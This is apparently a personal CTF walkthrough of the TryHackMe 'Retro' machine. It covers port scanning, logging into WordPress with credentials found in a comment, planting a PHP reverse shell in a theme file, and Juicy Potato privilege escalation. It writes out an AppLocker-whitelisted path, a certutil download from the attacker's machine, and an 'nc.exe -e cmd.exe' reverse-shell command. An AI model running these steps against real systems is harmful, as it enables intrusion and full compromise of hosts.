 ```yaml
---
layout: default
title : RETRO - THM
---
```

![Screenshot_20220412_165805](https://user-images.githubusercontent.com/24994796/162995378-4a26c32d-9b87-4c83-8fc6-708e12e2d0c7.png)

# Less chatting more hacking 🤤
Let's jump right into it 

Here were working with a retro arcade, games and all that let's see what it's all about .......

Upon firing up the machine we get an IP address

# Enumeration

First thing for every good security operative is enumeration
so we run an nmap scan to know which ports/services are up and running
![Screenshot_20220411_182142](https://user-images.githubusercontent.com/24994796/163006580-65d9d551-6f35-4a59-9fd7-09db4d275494.png)

We see there's  only two ports running 
Port 80 and 3389
That's
- http and rdp
- It's Good Practice to enumerate as much as you can
Running ffuf on the http service we get to know there's a sub-directory
![Screenshot_20220411_182124](https://user-images.githubusercontent.com/24994796/163007689-28031384-a937-4854-b0aa-e4af24cd3d0c.png)
You can run ffuf recursively or do it as i did
Heading to the retro directory we see it's a site for games and the likes
![Wade](https://user-images.githubusercontent.com/24994796/163008064-ed7094a8-5744-43fe-bb30-74e4fb075302.png)
In our scans and checking the source code we see it's CMS is wordpress 5.2.1
Head over to the log in page (bottom of the website)
We're Greeted with a thpical wordpress login page
All we need is User credentials 
Checking the source code we notice a comment link
![Screenshot_20220411_184823](https://user-images.githubusercontent.com/24994796/163009443-8e22a36c-66d3-4a95-b1fb-49f3a7c8d024.png)
Heading to the comment link we get this
![Screenshot_20220411_181132](https://user-images.githubusercontent.com/24994796/163009624-63e36c55-b118-45fa-9b81-ea35ccaead9e.png)
So We can guess the User name is wade and you can try the password from the gotten comment 
Logging in we're greeted with a dashboard
![Screenshot_20220411_181956](https://user-images.githubusercontent.com/24994796/163010214-63310cf3-2f1a-47ff-a75f-f13f564420b8.png)

# Exploitation

We can upload an RCE to wordpress CMS we just have to place it well
Your regular pentest monkey rev-shell won't work (didn't work for me)
So let's go for Rev-shell 2.5
![Screenshot_20220411_191305](https://user-images.githubusercontent.com/24994796/163010783-3e807405-c3c0-446a-9ee6-93b67be4e223.png)
[LINK TO THE REV](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)
Replace the archive.php file
![Screenshot_20220411_221725](https://user-images.githubusercontent.com/24994796/163014318-fe41e4f9-48b6-4897-9710-0f54e670ad66.png)
- Change the ip and port at the bottom of the script  
- start a nc listener 'rlwrap nc -lvnp $port"
- navigate to the archive.php "http://10.10.149.150/retro/wp-content/themes/90s-retro/archive.php"
- Remember Change the IP 😴

![Screenshot_20220411_191216(1)](https://user-images.githubusercontent.com/24994796/163015617-adf3ddb7-f8d2-486f-a563-f4a697091fa4.png)
We're in 😎
- First thing first enumeration
- who are we ?
- What are our Privileges ?

# Seeing SeImpersonate.... is Enabled we can use Juicy Potato for PrivEsc
- Get juicy potato, netcat binary
- Host it on your machine
- Download it in the victim machine(certutil -urlcache -f attacking-ip:port/file file)
Pls note there could be an applocker on windows, In our case there is cos if you try running the exe file you'll get a shell that's stuck 
To avoid that download the exe files and do everything you want to do in the applocker whitelisted path "C:\Windows\System32\spool\drivers\color"
![Screenshot_20220411_213900](https://user-images.githubusercontent.com/24994796/163017202-6638c509-89fa-4fa0-9155-0b91d7cdc067.png)

![Screenshot_20220411_213845](https://user-images.githubusercontent.com/24994796/163017351-98358b37-5a8b-452e-865e-316f8de599ac.png)
So yh everthing seems good 
So now we create a bat file "echo C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe  IP 1515 > reverse.bat"
![Screenshot_20220411_220833](https://user-images.githubusercontent.com/24994796/163017697-95b0f283-9feb-4b10-8ef1-ac868694f249.png)
Running "wmic Service get name,displayname,pathname,startmode" gives us a list of running services
Choosing a CLISD
[Juicy Potato CLISD](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/)

Start a netcat listener in a new tab on your machine with the port in the bat file
![Screenshot_20220411_220833](https://user-images.githubusercontent.com/24994796/163018886-290fc5c7-253c-4b07-9f66-198cada7241a.png)

![Screenshot_20220411_220856](https://user-images.githubusercontent.com/24994796/163018998-413404c0-8037-4008-896d-9ecdacede93a.png)

# AND WE ARE DONE
LOOK FOR FILES ON YOUR OWN, it's your little task

Hit me up on [Twitter](https://twitter.com/abdulmalik_ttg) if you run into any issues



<br> <br>
[Back To Home](../../index.md)
<br>
